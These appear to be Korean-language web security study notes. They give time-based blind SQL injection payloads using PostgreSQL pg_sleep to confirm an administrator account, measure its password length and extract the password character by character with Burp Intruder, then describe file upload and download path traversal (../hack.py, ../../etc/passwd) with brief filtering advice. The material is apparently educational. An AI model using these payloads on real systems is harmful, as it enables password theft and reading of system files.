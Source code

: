 ```
x'%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(3)+ELSE+pg_sleep(0)+END+FROM+users--
```

딜레이가 있는 걸보니, administrator가 있음. 

```
x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+length(password)>20)+THEN+pg_sleep(3)+ELSE+pg_sleep(0)+END+FROM+users-- 
```

20에서 딜레이가 멈추는 걸보니, password는 20자임. 

x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+substring(password,§2§,1)='§a§')+THEN+pg_sleep(2)+ELSE+pg_sleep(0)+END+FROM+users-- 

intruder에 보내서, clusterbomb, thread=1, 그리고 공격, response received칼럼으로 정렬함. 

 <img src='./images/theory/sql-3.png'>

password 확인가능 



# 3. File Vulnerability

**파일 업로드 취약점** 

서버의 파일 시스템에 사용자가 원하는 경로 또는 파일 명 등으로 업로드가 가능하여 악영향을 미칠 수 있는 파일이 업로드되는 취약점 
파일명을 ../hack.py로 하면 정해진 경로에서 벋어난 위치에 업로드 될 수 있음. 

**파일 다운로드 취약점** 

서버의 기능 구현 상 의도하지 않은 파일을 다운로드할 수 있는 취약점 
../../etc/passwd 와 같은 이름의 파일은 다운할 수가 있게 된다. 

**방어** 

파일명을 받아서 다운로드 하는 것은 좋지 않다. 
파일명을 받는 경우에는 .. , /를 필터링 해야한다. 

